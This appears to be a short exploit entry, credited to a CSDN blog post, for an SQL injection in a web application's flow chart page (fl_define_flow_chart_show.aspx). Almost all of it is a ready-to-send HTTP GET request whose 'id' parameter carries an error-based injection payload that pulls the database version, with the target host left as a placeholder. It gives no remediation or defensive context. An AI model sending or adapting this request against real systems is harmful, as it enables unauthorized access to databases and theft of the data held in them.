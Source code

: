 # lanlineis_fl_define_flow_chart_show_sql
2024/1/15
from: https://blog.csdn.net/luochen2436/article/details/135504486?spm=1001.2014.3001.5502
@2
```
GET /flow/fl_define_flow_chart_show.aspx?id=1%20and%201=@@version--+ HTTP/1.1
Host: your_ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

```
